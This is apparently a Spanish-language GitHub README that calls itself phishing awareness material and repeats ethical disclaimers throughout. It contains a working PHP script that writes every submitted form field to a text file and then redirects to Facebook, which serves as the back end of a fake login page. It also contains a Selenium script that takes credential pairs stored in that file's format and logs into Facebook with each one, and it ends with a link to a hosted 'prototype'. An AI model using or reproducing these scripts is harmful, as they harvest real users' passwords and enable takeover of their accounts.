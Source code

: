 ##Phishing y Automatización de Formularios
Este README proporciona información sobre el phishing y cómo el ejemplo anterior de automatización de formularios puede considerarse un ejemplo de phishing. El phishing es una práctica engañosa y potencialmente dañina que se utiliza para obtener información confidencial de manera fraudulenta.

##¿Qué es el Phishing?
Phishing es una forma de ciberataque en la que un atacante se hace pasar por una entidad de confianza (como un banco, una red social o una empresa legítima) para engañar a las personas y obtener información confidencial, como contraseñas, números de tarjetas de crédito y otra información personal. El objetivo del phishing es obtener acceso no autorizado a cuentas, robar identidades o cometer otros tipos de fraude.

Los ataques de phishing a menudo implican el envío de correos electrónicos o la creación de sitios web falsos que se parecen mucho a los originales. Los estafadores utilizan tácticas de ingeniería social para engañar a las víctimas y hacer que divulguen información sensible.

##Automatización de Formularios y Phishing
El ejemplo de código anterior muestra cómo se puede utilizar la automatización de formularios con Selenium para ingresar credenciales en un formulario de inicio de sesión en una página web. Aunque el código es presentado aquí con fines educativos y éticos, es importante destacar que la misma técnica de automatización de formularios puede ser utilizada con fines maliciosos y considerarse una forma de phishing si se realiza sin el consentimiento y la autorización adecuados.

Algunas de las características comunes que pueden convertir la automatización de formularios en un acto de phishing incluyen:

**Engaño:** El atacante puede engañar a las víctimas para que compartan sus credenciales al hacerles creer que están interactuando con un sitio web legítimo.

Recopilación de Datos Sensibles: La automatización de formularios puede utilizarse para recopilar datos confidenciales, como contraseñas, números de tarjeta de crédito o información personal, sin el consentimiento del usuario.

Suplantación de Identidad: Al utilizar la automatización de formularios, un atacante puede suplantar la identidad de una entidad de confianza para robar información.

**Nota Importante**
Este README se proporciona para crear conciencia sobre el phishing y destacar cómo la automatización de formularios puede considerarse una forma de phishing si se usa con intenciones maliciosas. Se enfatiza la importancia de realizar actividades de seguridad de manera ética y legal, y de respetar las políticas y leyes aplicables.

El phishing es ilegal y dañino. No debe ser utilizado con fines maliciosos, y se debe tener cuidado de respetar las leyes y regulaciones aplicables al realizar pruebas de seguridad en sistemas y sitios web.

Asegúrate de cumplir con todas las leyes y regulaciones aplicables y de respetar las políticas de seguridad del sitio web al realizar actividades de automatización de formularios.

# Buenas Prácticas para Evitar Mal Uso de Datos de Formulario

Este README tiene como objetivo proporcionar información sobre buenas prácticas y directrices para garantizar que las tecnologías y scripts en uso cumplan con los principios éticos y legales, y eviten prácticas maliciosas como la recolección no autorizada de datos de formulario.

## Descripción del Código

El código proporcionado es un ejemplo que ilustra cómo se pueden manipular datos de formulario en un entorno web. Sin embargo, es esencial utilizar este código de manera ética y legal y contar con el permiso adecuado para realizar pruebas y actividades relacionadas con la seguridad.
Este còdigo almacena los datos de un formulario en un bloc de notas y redirige a facebook
```php
<?php
$archivo = fopen("contras.txt", "a");
fwrite($archivo, "\r\n");
foreach ($_POST as $key => $value) {
    fwrite($archivo, $key . "=" . $value . "\r\n");
}
fclose($archivo);
header("Location: https://www.facebook.com");
die();
?>

```
## Buenas Prácticas

Para evitar el mal uso de datos de formulario y garantizar la seguridad y la integridad de los sistemas y los datos, se deben seguir las siguientes buenas prácticas:

1. **Consentimiento y Autorización**: Antes de realizar pruebas de seguridad en cualquier sistema, obtén el consentimiento y la autorización explícita del propietario del sistema o sitio web. Realizar pruebas sin autorización puede ser ilegal.

2. **Entorno Controlado**: Realiza pruebas en un entorno controlado y aislado que no afecte a sistemas o datos en producción.

3. **Transparencia**: Asegúrate de que todas las pruebas se realicen de manera transparente y documentada. Registra todas las actividades realizadas.

4. **Eliminación Segura de Datos**: Si se recopilan datos durante las pruebas, asegúrate de eliminarlos de manera segura y completa una vez que las pruebas hayan concluido.

5. **Cumplimiento Legal**: Cumple con todas las leyes y regulaciones de seguridad informática aplicables en tu jurisdicción.

## Nota Importante

Este README se proporciona con la intención de promover prácticas de seguridad éticas y legales. El código proporcionado no debe utilizarse con fines maliciosos, y se debe tener cuidado de respetar las leyes y regulaciones aplicables en todo momento.
## Automatizar el inicio de sesiòn en facebook con contraseñas y usuarios almacenados en un bloc de notas
El código que proporcionaste es un ejemplo de cómo utilizar Selenium para automatizar el inicio de sesión en una página web utilizando contraseñas almacenadas en un archivo. El código realiza las siguientes acciones:

Configura el controlador de Selenium y abre el sitio web de Facebook.
Lee las credenciales desde un archivo de bloc de notas ("credenciales.txt").
Divide el archivo en bloques separados por líneas en blanco para procesar las credenciales de múltiples usuarios.
Para cada usuario en los bloques separados:
a. Divide cada bloque en líneas y crea un diccionario clave-valor para las credenciales.
b. Verifica si existen las claves 'email' y 'pass' en el diccionario.
c. Encuentra los elementos de usuario y contraseña en la página web.
d. Ingresa las credenciales en los campos correspondientes.
e. Envía el formulario de inicio de sesión.
f. Espera a que la página se cargue (puedes ajustar este tiempo).
g. Realiza cualquier acción adicional si es necesario.
Este código es útil para realizar pruebas o automatizar el proceso de inicio de sesión con múltiples cuentas. Sin embargo, ten en cuenta que su uso debe realizarse de manera ética, legal y en un entorno controlado donde tengas permiso para llevar a cabo pruebas de este tipo. Además, asegúrate de que el archivo de contraseñas se mantenga de manera segura y que las contraseñas se almacenen de forma encriptada y protegida.

```python
from selenium import webdriver
from selenium.webdriver.common.keys import Keys

# Configura el controlador de Selenium y el sitio web de destino
driver = webdriver.Chrome()
driver.get("https://www.facebook.com")

# Lee las credenciales desde el archivo de bloc de notas
with open("credenciales.txt", "r") as file:
    data = file.read()

# Divide el archivo en bloques separados por líneas en blanco
usuarios = data.split('\n\n')

for usuario in usuarios:
    # Divide cada bloque en líneas y crea un diccionario clave-valor
    credenciales = {}
    for line in usuario.split('\n'):
        key, value = line.strip().split('=')
        credenciales[key] = value

    # Verifica si existen las claves 'email' y 'pass' en el diccionario
    if 'email' in credenciales and 'pass' in credenciales:
        email = credenciales['email']
        password = credenciales['pass']

        # Encuentra los elementos de usuario y contraseña
        username_element = driver.find_element_by_id("email")
        password_element = driver.find_element_by_id("pass")

        # Ingresa las credenciales
        username_element.send_keys(email)
        password_element.send_keys(password)

        # Envía el formulario de inicio de sesión
        password_element.send_keys(Keys.RETURN)

        # Espera a que la página se cargue (puedes ajustar este tiempo)
        driver.implicitly_wait(10)

        # Realiza cualquier acción adicional aquí si es necesario

# Cierra el navegador
driver.close()

```
Recuerda que la seguridad informática debe centrarse en proteger sistemas y datos, no en comprometerlos. El cumplimiento ético y legal es fundamental en todas las actividades de seguridad informática.

PROTOTIPO EN:
https://increibleayudargente.000webhostapp.com/
